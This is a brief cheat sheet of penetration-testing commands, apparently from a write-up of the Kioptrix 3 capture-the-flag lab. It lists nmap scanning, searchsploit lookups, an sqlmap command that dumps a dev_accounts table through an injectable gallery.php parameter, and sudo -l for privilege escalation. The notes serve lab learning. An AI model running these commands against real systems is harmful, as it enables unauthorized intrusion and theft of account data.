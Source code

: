 https://v3ded.github.io/ctf/kioptrix3.html
- `nmap {domain name} -A -T5` (Open Ports & Running Services)
- `searchsploit {item}` (Search for vulnerabilities)
- `sqlmap -u kioptrix3.com/gallery/gallery.php?id=1 -T dev_accounts --dump` (When you know table name, if you don't leave blank)
- `sudo -l` (Find out what commands you can run as sudo when you have shell access)
